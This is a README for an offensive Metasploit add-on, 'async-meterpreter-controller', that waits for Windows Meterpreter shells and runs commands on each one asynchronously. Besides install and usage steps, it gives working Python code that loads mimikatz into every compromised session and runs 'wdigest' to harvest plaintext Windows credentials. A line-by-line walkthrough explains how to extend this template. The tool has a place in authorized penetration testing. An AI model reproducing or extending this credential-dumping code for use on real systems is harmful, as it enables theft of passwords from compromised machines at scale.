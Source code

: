 async-meterpreter-controller
------
Waits for a windows meterpreter shell then lets you asynchronously do whatever you want with it.

#### Installation
This install is only tested on Kali. Clone into the repo, enter the cloned folder and run install.sh. Open a new terminal and start metasploit with the included rc file. Back in the original terminal continue by entering the newly-created virtual environment with pipenv. Finally, enter the included msfrpc/ folder and install it now that you're inside the virtual environment.

```
git clone https://github.com/DanMcInerney/async-meterpreter-controller
cd async-meterpreter-controller
In a new terminal: msfconsole -r msfrpc.rc
pipenv install --three
pipenv shell
cd msfrpc && python2 setup install && cd ..
./async-meterpreter-controller.py
```

#### Usage
```./async-meterpreter-controller.py```

#### How to extend
By default all the script does is run `sysinfo`, `getuid`, and windows/post/gather/win_privs then prints all the shell info to the console. All session data is being stored in the global NEW_SESS_DATA dictionary. To extend the template and send commands and get output from each meterpreter session you'll want to go to line 470. Here's an example of how you'd run mimikatz on each session. Start coding on line 472:

```
global NEW_SESS_DATA
load_mimi_cmd = 'load mimikatz'
load_mimi_end_strs = [b'Success.', b'has already been loaded.']
load_mimi_output = await run_session_cmd(client, sess_num, load_mimi_cmd, load_mimi_end_strs)
wdigest_cmd = 'wdigest'
wdigest_end_str = [b'  Password']
mimikatz_output = await run_session_cmd(client, sess_num, wdigest_cmd, wdigest_end_str)
if type(mimikatz_output) == str:
    return mimikatz_output
else:
    mimikatz_utf8_out = mimikatz_output.decode('utf8')
    mimikatz_split = mimikatz_utf8_out.splitlines()
    for l in mimikatz_split:
        print_info(l.strip(), sess_num)
        NEW_SESS_DATA[sess_num][b'mimikatz_output'] = mimikatz_split
```
* Line 1: We will be adding data to NEW_SESS_DATA so that all async coroutines can access the same information about the sessions so we have to define it as a global variable.
* Line 2: We start by creating the command to load the mimikatz plugin in the session.
* Line 3: The script asynchronously waits for the meterpreter output but it's just reading the meterpreter buffer over and over so we give it any number of byte literals to look for that will tell it the command finished. There's also builtin ability to detect timed out commands and various errors.
* Line 4: This is where we call the meterpreter command on that session and asynchronously wait for the output.
* Line 5: Command to run on the session.
* Line 6: The byte literal that will appear in the meterpreter output that tells us the command finished.
* Line 7: Asynchronously wait on the output of the 'wdigest' command.
* Line 8: run_session_cmd() will only return a string if it errored out. Otherwise it will return bytes, e.g., b'Blah blah'. 
* Line 9: Here we return the function with the error message if it errored out.
* Line 10: If we get a byte literal then we know the command completed successfully.
* Line 11: Convert the byte literal to string.
* Line 12: Create a list where each item is one line from the output of the 'wdigest' command.
* Line 13: For each line of output from 'wdigest'...
* Line 14: Print that line of output. We have access to print_info(), print_good(), print_great(), and print_error() which will colorize the output. 
* Line 15: Add the mimikatz data to the global variable NEW_SESS_DATA so that this data is now accessible should you want to do something with it later even if it's in another session.
